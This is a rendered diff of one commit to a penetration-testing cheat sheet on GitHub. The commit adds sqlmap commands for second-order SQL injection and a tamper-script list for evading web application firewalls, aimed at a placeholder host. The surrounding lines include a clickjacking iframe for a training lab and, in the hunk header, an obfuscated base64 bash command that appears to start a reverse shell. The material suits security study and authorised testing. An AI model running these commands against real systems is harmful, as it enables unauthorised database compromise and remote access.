

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Adding `sqlmap` techniques I didn't know about!

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1914,5 +1914,18 @@ bash${IFS}<${IFS}<(base64${IFS}-d${IFS}<${IFS}<(echo${IFS}YmFzaCAtaSAgPiYgIC9kZX
   Click me next
 </div>
 <iframe src="https://0ae2003b0322f74f8008a85a00660013.web-security-academy.net/my-account"></iframe>
-
-```
+```
+
+### Sqlmap Second-Order SQLi
+```
+sqlmap -u http://target-app.com --second-req http://target-app.com/user/profile --level=3 --risk=1
+```
+
+### Sqlmap Tampering Techniques ([source](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3))
+
+- tell `sqlmap` to use tampering techniques for bypassing WAF that are database agnostic
+
+```
+sqlmap -u http://target-app.com --level=3 --risk=1 \
+	--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
+```
````
